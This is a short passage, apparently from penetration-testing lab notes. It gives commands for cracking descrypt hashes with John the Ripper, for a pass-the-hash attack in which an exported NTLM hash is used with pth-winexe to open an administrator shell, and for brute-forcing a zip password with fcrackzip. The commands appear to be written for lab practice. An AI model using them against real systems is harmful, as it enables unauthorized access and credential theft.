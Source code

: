     - JTR forced descrypt brute force cracking

        `john --format=descrypt hash --show`

- Passing the Hash in Windows

    - Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:

        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `

        `pth-winexe -U administrator //$ip cmd`

### Cracking zip file password

`fcrackzip -v -b -D -p rockyou.txt -u ./backup.zip`
